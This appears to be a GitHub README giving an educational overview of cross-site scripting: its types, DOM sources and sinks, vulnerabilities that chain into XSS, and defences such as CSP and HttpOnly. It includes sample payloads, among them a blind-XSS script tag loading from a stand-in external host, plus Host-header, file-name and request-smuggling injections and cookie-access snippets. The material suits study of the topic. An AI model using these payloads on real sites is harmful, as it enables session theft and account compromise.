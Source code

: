 # XSS-reserch
A research related to xss vulnerability
XSS (Cross-Site Scripting) vulnerability refers to code injection where hackers are able to inject malicious code into web pages or other web applications. These codes may include JavaScript, HTML, or other programming languages. An XSS vulnerability allows hackers to steal sensitive user information, steal user sessions, or perform unauthorized operations.

XSS vulnerability is divided into several categories:

    stored
    reflected
    blind
    self
    DOM
    
Stored xss
This type of attack is one of the worst types of XSS attacks, where the hacker permanently places his code on the victim's website so that he can use it permanently 


Reflected xss
This type of attack, which is also the most common XSS attack, the intruder finds temporary security holes in the website and implements his goals.
For example, if the site has a hole in the search section, the hacker can enter the desired code and provide other users with the address of the vulnerable page using shortened links.

DOM-xss
DOM XSS is an advanced type of XSS attack that allows an attacker to inject malicious scripts along with data sent to the Document Object Model (DOM). The data is then read by the web application and transferred to the browser.
In JavaScript, sinks refer to places that receive and use external data. Generally, sinks are points in a program or web page where input data is used, and if the input is not properly validated, it can lead to security vulnerabilities.
For example, functions like innerHTML, eval, setAttribute, etc. are common sinks in JavaScript. These functions can directly or indirectly receive external data and use them in a web page or program. If the inputs to these functions are not properly validated, hackers may be able to inject malicious code as inputs to these functions and have them executed in users' browsers.
On the other hand, sources in JavaScript refer to places that generate or provide external data. Generally, sources are points in a program or web page that produce external data.
So, in summary, DOM XSS occurs when a JavaScript source accepts user input and passes it to another function that may execute it as an unsafe sink.

Source

    document.URL
    document.documentURI 
    document.URLUnencoded 
    document.baseURI 
    location 
    document.cookie 
    document.referrer 
    window.name 
    history.pushState 
    history.replaceState
    
sink

    document.write()
    window.location
    document.cookie
    eval()
    document.domain
    WebSocket()
    someElement.src
    postMessage()
    setRequestHeader()
    FileReader.readAsText()
    ExecuteSql()
    sessionStorage.setItem()
    document.evaluate()
    JSON.parse()
    someElement.setAttribute()
    RegExp()

Blind xss
Blind XSS vulnerability is a type of Persistent XSS vulnerability. This vulnerability occurs when the penetration test input is stored on the web server and executed by a script in another part of the application or in another application.
Payload

    "><script src=https://hello.xss></script>

<self-xss>
This vulnerability is implemented through social engineering attacks that force the victim to enter malicious code into their console 
  
-------------------------------------------------------

Vulnerabilities that convert to xss:

    css injection 
    html injection 
    clickjacking 
    host header injection 
    Request smuggling 
    File Upload

css injection

CSS Injection Vulnerability means injecting malicious CSS code into web pages or web applications. This vulnerability allows hackers to inject malicious CSS code into the page and make changes to the appearance and display of the page. These codes may include changing colors, fonts, hiding elements, and other stylistic changes, or even the vulnerability can be converted to xss.
Payload:

     body {
           background-image: url('javascript:alert("origin")');
     }

     html injection

HTML injecton

HTML Injection vulnerability means injecting malicious HTML code into web pages or web applications. This vulnerability allows hackers to inject malicious HTML code into the page and make changes to the structure and display of the page. These codes may include adding new HTML elements, changing content, and hiding elements

XSSJacking

If our target has a clickjacking vulnerability, a self xss attack can be executed
Clickjacking vulnerability occurs when the website has used the iframe tag but has not secured it with the X-Frame-Option header.

XSS via to HOST header injection

Attacks that include direct injection of the payload into the Host header are called Host header injection attacks, which can sometimes be converted to xss.
Payload

    X-forwarded-host: "><script>alert(origin)</script>

Xss via upload file

There are two modes for xss in upload file
1_ Through the file name
Payload

    "><img src=x onerror=alert(origin)>.png

2_ Making changes in the content of the file   

Request smuggling to xss

The vulnerability of request smuggling can be converted to xss
for example :

    POST/HTTP/1.1
    Host: hacker
    Content-Length: 150 
    Transfer-Encoding: chunked

    0

    GET /hello
    user-agent: "><script>alert(origin)</script>
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4

    X = 1
-------------------------------------------------------
xss exploit
  
Stealing Cookies:

    alert(document.cookie) 
    
open redirect:

    location.replace(http://......)
    
-------------------------------------------------------
Methods to prevent xss vulnerability :

    HttpOnly 
    CSP
    x-xss-Protection
    Filter

HttpOnly

http-only cookies, the thing about these cookies is that the browser prevents them from being read by javascript.
HttpOnly can be bypassed through phpinfo

CSP

Content Security Policy or CSP is a large new HTTP header that controls where a browser is allowed to load content and what type of content it is allowed to load to prevent attacks like XSS.

x-xss-protection

This header helps us to prevent the occurrence of xss vulnerability

Filter

Characters can be filtered with the help of some functions such as htmlspecialchars
